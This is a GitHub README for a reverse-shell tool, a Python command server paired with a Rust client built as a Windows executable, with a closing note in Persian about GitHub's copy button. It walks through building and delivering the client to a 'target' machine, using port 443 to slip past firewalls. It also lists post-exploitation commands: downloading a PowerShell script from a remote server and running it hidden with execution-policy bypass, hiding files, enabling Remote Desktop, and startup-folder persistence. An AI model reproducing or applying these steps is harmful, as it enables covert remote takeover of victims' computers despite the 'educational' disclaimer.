 ```markdown
# 🐍 Reverse Shell (Python Server & Rust Client)

This project is a simple yet effective reverse shell, consisting of a Python server for managing connections and a Rust-based client for the Windows operating system. This tool is designed for **educational purposes and penetration testing**.

## 📋 Features

- ✅ **Python Server:** Lightweight and runnable on Linux-based operating systems.
- 🔐 **Encrypted Communication:** Utilizes the `pycryptodome` library for data encryption.
- 🖥️ **Rust Client:** Compiles to a small, fast `.exe` executable for Windows.
- 📡 **Session Management:** Capable of handling multiple concurrent connections.
- 🛡️ **Firewall Bypass:** Uses port 443 to reduce the likelihood of traffic being blocked.

---

## 🚩 Prerequisites

### For the Server (Ubuntu Server)

- An Ubuntu server or virtual machine with a **static IP address**.
- Python 3 installed.
- `pip` (Python's package installer) installed.

### For Compiling the Client (Windows)

- The **Rust** programming language installed. (You can download it from [here](https://www.rust-lang.org/tools/install))
- **Microsoft Visual Studio Build Tools** with **C++** support installed. (You can download it from [here](https://visualstudio.microsoft.com/visual-cpp-build-tools/))

---

## 🛠 Server Installation & Setup

Follow these steps on your Ubuntu server:

1.  First, update your system and install `pip`:
    ```bash
    sudo apt update
    sudo apt install python3-pip
    ```

2.  Open the desired port (443 in this example) in your firewall:
    ```bash
    sudo ufw allow 443
    ```

3.  Clone the project from GitHub and navigate into its directory.

4.  Install the required Python libraries. (Ensure a `requirements.txt` file exists in the project and includes `pycryptodome`.)
    ```bash
    pip install -r requirements.txt
    ```

5.  Run the server:
    ```bash
    python3 server.py
    ```
    or
    ```bash
    python server.py
    ```

At this point, the server is active and will listen for incoming client connections. You can type `help` at any time in the server terminal to see the list of available commands.

---

## 🔨 Building the Client Executable (Exe)

To build the `.exe` file that will run on the target Windows system, follow these steps:

1.  Ensure you have installed the prerequisites for **Rust** and **Visual Studio Build Tools**.

2.  Navigate to the client directory in the project:
    ```bash
    cd reverse_shell
    ```

3.  Open the `main.rs` file with a text editor.

4.  Find the following line and replace it with your Linux server's IP address and port. (Using port 443 is recommended)
    ```rust
    let server_addr = "YOUR_SERVER_IP:443"; // <-- Replace with your server's IP
    ```

5.  Run the following command to compile the project:
    ```bash
    cargo build --release --target x86_64-pc-windows-msvc
    ```

6.  The executable `.exe` file will be created at the following path:
    ```
    target\x86_64-pc-windows-msvc\release\reverse_shell.exe
    ```

> **⚠️ Important Warning:** Never run the `reverse_shell.exe` file on your own machine! This file is designed to be executed on the target system. For testing, always use a virtual machine.

---

## 📖 How to Use

1.  Run the server on your Ubuntu VM as described in the setup instructions.
2.  Transfer the compiled `reverse_shell.exe` file to the target Windows machine.
3.  Execute the `reverse_shell.exe` file on the target system.
4.  Immediately after execution, a new connection will appear in your server's terminal.

---

## 🎯 Commands

### Server Commands (For Managing Connections)

Enter these commands in the Python server terminal:

- `help`: Displays the list of available commands.
- `sessions`: Shows all active sessions (connections).
- `connect <id>`: Connects to a specific session to send commands. (e.g., `connect 1`)
- `info <id>`: Retrieves basic system information for a specific session.
- `exit`: Shuts down the server completely.

### Example Client-Side Commands (To Run on the Target)

After connecting to a session using the `connect` command, you can send the following commands to perform various actions on the target system:

#### Download and Execute a PowerShell Script
```cmd
curl -o "script.ps1" "http://your-server.com/script.ps1" 
powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File "script.ps1"
```

#### Hide a File Completely
```cmd
attrib +h +s "C:\path\to\your\file.ext"
```
> To unhide files hidden with this method, you must enable "Hidden items" and uncheck "Hide protected operating system files" in File Explorer's View options.

#### Enable Windows Remote Desktop (RDP)
```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
sc config TermService start= auto
sc start TermService
netsh advfirewall firewall set rule group="Remote Desktop" new enable=Yes
```

#### Copy File to Startup Folder (for Persistence)
The startup folder path is:
```
C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

#### Run Executable Without a Console Window
```cmd
start /B reverse_shell.exe
```

---

## ⚖️ Disclaimer

This tool is developed solely for **educational** and **security research** purposes. Any misuse, illegal, or unauthorized use of this code is the sole responsibility of the user. The developer assumes no liability for any potential misuse.
```

---

**نکته کلیدی:** مطمئن شوید که فایل را در گیت‌هاب ذخیره کرده و سپس صفحه را رفرش کنید. دکمه کپی فقط در نمای رندر شده‌ی گیت‌هاب نمایش داده می‌شود، نه در ویرایشگر متن شما.
